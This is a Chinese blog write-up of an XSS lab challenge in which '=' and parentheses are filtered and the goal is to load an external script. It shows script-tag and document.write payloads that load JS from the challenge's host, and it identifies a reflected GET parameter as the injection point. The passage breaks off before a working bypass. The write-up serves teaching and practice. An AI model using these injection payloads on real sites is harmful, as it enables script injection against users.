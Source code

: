 ## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/9794552df3c8435181f32a28449711f6.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **过滤了等号`=`、小括号 `()`，要求加载任意 JS 代码。成功加载 <http://xcao.vip/xss/alert.js>
> 表示完成挑战**

## 方法一

首先应该思考，在 JavaScript 中，加载 JS 代码，有哪些方式？

首先想到了

    
    
    <script src="http://xcao.vip/xss/alert.js"></script>
    

这是最基本的加载方式。

此时我们需要在页面中加载这个 JS 代码，应该想到使用 `document.write()`，将上面的代码写入 HTML 页面，从而执行 JS 代码。

那么如果要使用这个方法，还得在外面再使用一个 `<script>` 标签。即：

    
    
    <script>document.write(<script src="http://xcao.vip/xss/alert.js"></script>)</script>
    

然后再回到题目中来。

查看 HTML 代码：

    
    
    <html>
    	<head>
    		<meta charset="utf-8">
    		<title>独孤九剑-第一式  Design by 香草</title>
    	</head>
    	<body>
    		<h2>过滤了 =()，少侠骨骼惊奇，必是练武奇才</h2>
    		<h2>要求加载任意JS代码,成功加载http://xcao.vip/xss/alert.js 表示完成挑战</h2>
    	<input type="text" value="s">
    	</body>
    </html>
    

题目只有一个输入框，并且无法通过输入框提交内容。而同时我们注意到地址栏里有通过 GET 方式提交的参数：  
![在这里插入图片描述](https://img-blog.csdnimg.cn/26bdb9673cff4f52b8f74a804f35253b.png)  
尝试修改参数，成功修改了输入框中的内容：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/dfe1cecbc4b0466aa8a202326796e633.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
那么 XSS 攻击的点就在这里。
